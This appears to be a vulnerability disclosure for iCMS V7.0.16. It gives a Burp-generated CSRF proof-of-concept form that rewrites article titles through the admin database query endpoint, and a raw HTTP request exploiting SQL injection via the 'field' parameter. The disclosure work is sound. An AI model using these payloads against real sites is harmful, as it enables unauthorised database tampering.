



icms

### My env

iCMS V7.0.16 (latest version)

php 5.6.9

Windows

### 0x01 modify article content without CSRF protection

Attack could modify any article content by csrf attack because of the System csrf protection could be bypassed.

poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://xxx/icms/admincp.php?app=database&do=query&frame=iPHP" method="POST">
      <input type="hidden" name="field" value="title" />
      <input type="hidden" name="pattern" value="helloo" />
      <input type="hidden" name="replacement" value="hacked" />
      <input type="hidden" name="where" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

The `title` field of any article in database matches `helloo` pattern will be changed to `hacked`.

For example:

Before:



After:



### 0x02 SQL injection

Same place as 0x01, at `app/database/database.admincp.php:225`, sql injection vulnerability caused by param `$field` which was concat to a SQL query string .

poc: (This poc will change titles of every article to `select version()`)

```
POST /icms/admincp.php?app=database&do=query&frame=iPHP HTTP/1.1
Host: 192.168.125.130
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Cookie: XXXX

field=title`=version()%23--+&pattern=asdf&replacement=asdf&where=asdf
```

before:


after:




